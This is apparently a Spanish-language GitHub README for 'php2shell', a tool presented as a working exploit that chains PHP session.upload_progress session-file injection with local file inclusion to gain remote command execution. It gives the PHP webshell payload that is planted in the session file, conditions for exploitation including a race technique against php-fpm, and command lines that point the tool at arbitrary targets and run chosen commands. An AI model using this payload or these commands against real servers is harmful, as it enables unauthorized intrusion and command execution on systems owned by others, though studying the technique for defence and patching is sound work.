

# php2shell — CVE-2026-109618 / CVE-2026-109619

Exploit funcional del vector **`session.upload_progress` → session file injection + LFI → RCE** en PHP. En lugar de depender del banner de versión, verifica el **comportamiento real** del objetivo en cinco fases y confirma la ejecución de comandos con un token único.

**Contenido**

| Archivo | Descripción |
|---|---|
| `php2shell.py` | Verificador/exploit (Python 3, sin dependencias externas) |
| `php2shell_demo.gif` | Demostración (se reproduce en GitHub) |
| `php2shell_demo.mp4` | Demostración en calidad completa |

---

## Demostración



Ejecución completa contra un objetivo de laboratorio: condiciones, detección de LFI, inyección en el session file, race con subida lenta y confirmación de RCE.

---

## Cómo funciona

El script avanza en fases y se detiene en la primera que falla:

| Fase | Qué hace |
|---|---|
| **PHASE 1 — Fingerprint** | Identifica PHP y su versión (`Server`, `X-Powered-By`, cookie `PHPSESSID`) y contrasta con el rango vulnerable. |
| **PHASE 2 — Condiciones reales** | Comprueba los prerrequisitos de verdad, no la versión: aceptación de `PHPSESSID` impuesto (session fixation) y procesamiento del multipart pre-auth (`PHP_SESSION_UPLOAD_PROGRESS`). |
| **PHASE 3 — LFI** | Localiza el primitivo de inclusión probando una lista de parámetros comunes (`page`, `file`, `include`, …) contra `/etc/passwd` y `php://filter`. |
| **PHASE 4 — Inyección** | Escribe el payload en el session file abusando del nombre de fichero sin validar de `session.upload_progress`. |
| **PHASE 5 — RCE** | Incluye el session file vía LFI y confirma la ejecución con un marcador único (`PPS…`), extrayendo la salida del comando. |

### Vector

El handler `session.upload_progress` escribe en el session file el nombre del fichero subido **sin sanear**, lo que permite plantar código PHP:

```php
<?php echo 'PPS<token>'; system($_GET['c']); ?>
```

Al incluir ese fichero por el LFI, el código se interpreta y ejecuta el comando indicado.

### Condiciones de explotabilidad

- `session.upload_progress.enabled = On` (valor por defecto de PHP).
- Un LFI alcanzable que apunte al session file.
- `session.save_path` conocido o deducible.
- **`cleanup = Off`** → una sola petición basta (subida + inclusión juntas).
- **`cleanup = On`** (por defecto) → requiere la técnica de **race**: una subida válida y lenta mantiene poblado el session file mientras se incluye en paralelo. La ventana solo existe si el SAPI hace *streaming* del body (php-fpm). Con **mod_php** o el servidor integrado el body se bufferiza y no hay ventana.

---

## Uso

```bash
# Verificación de condiciones (sin enviar payload)
python3 php2shell.py https://objetivo.com --only-check

# Detección automática de LFI y explotación
python3 php2shell.py https://objetivo.com

# Comando específico
python3 php2shell.py https://objetivo.com --cmd "id"

# Forzar el parámetro LFI y la ruta de sesiones
python3 php2shell.py https://objetivo.com --lfi-param page -s /var/lib/php/sessions

# Forzar el modo race (cleanup=On)
python3 php2shell.py https://objetivo.com --race
```

### Parámetros

| Opción | Descripción |
|---|---|
| `target` | Dominio o URL (ej. `example.com`) |
| `--path` | Ruta del endpoint PHP (por defecto `/`) |
| `--lfi-param` | Fuerza el nombre del parámetro LFI |
| `--cmd` | Comando a ejecutar (por defecto `id`) |
| `--sid` | Session ID a usar |
| `--only-check` | Solo comprueba condiciones, sin payload |
| `--race` | Fuerza el modo race (`cleanup=On`) |
| `-s, --save-path` | `session.save_path` del objetivo (directorio o lista separada por comas) |
| `--timeout` | Timeout HTTP en segundos (por defecto `15`) |

### Código de salida

| Código | Significado |
|---|---|
| `0` | RCE confirmado, o comprobación de condiciones completada (`--only-check`) |
| `1` | No se detectó PHP en el objetivo |
| `2` | No confirmado (falta LFI o no se cerró el race) |

---

## Recorrido de la demostración

La ejecución grabada corresponde a un objetivo de laboratorio (nginx + php-fpm, `cleanup=On`):

1. **`--help`** — superficie de uso del script.
2. **`--only-check`** — fingerprint y validación de condiciones sin enviar payload.
3. **PHASE 1–2** — detección de PHP y comprobación de prerrequisitos.
4. **PHASE 3** — confirmación del LFI en el parámetro `page`.
5. **PHASE 4/5** — intento por petición única, que **no** confirma RCE (el endpoint no incluye el fichero en la misma petición).
6. **PHASE 5b** — modo race: tres subidas lentas concurrentes con cuatro hilos de LFI durante 30 s hasta capturar el token.
7. **Veredicto** — **RCE confirmado** con la salida del comando (`uid=…(www-data)`) y la ruta del session file explotado.

El orden, los colores y el texto de las fases son los originales de consola.

### Nota de laboratorio

La técnica de race requiere que el body llegue en *streaming* a php-fpm. Tras un **nginx** por defecto (`fastcgi_request_buffering on`) el body se bufferiza y el race no cierra; con `fastcgi_request_buffering off` la ventana existe y el exploit confirma RCE.
